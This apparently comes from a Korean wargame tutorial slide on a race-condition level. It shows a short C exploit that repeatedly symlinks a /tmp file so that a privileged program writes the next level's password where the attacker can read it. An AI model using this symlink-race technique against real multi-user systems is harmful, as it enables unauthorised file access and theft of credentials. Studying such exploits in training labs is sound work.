

# level 5: 레이스 컨디션
$ vi expTarget.c
	#include <unistd.h>
	int main()
	{
		int i;

		system(“touch /tmp/lvl6pass.txt”);

		for(i=0; i<=10; i++)
		{
			system(“ln –s /tmp/lvl6pass.txt /tmp/level5.tmp”);
		}

		system(“cat /tmp/lvl6pass.txt”);
	}
$ gcc –o expTarget expTarget.c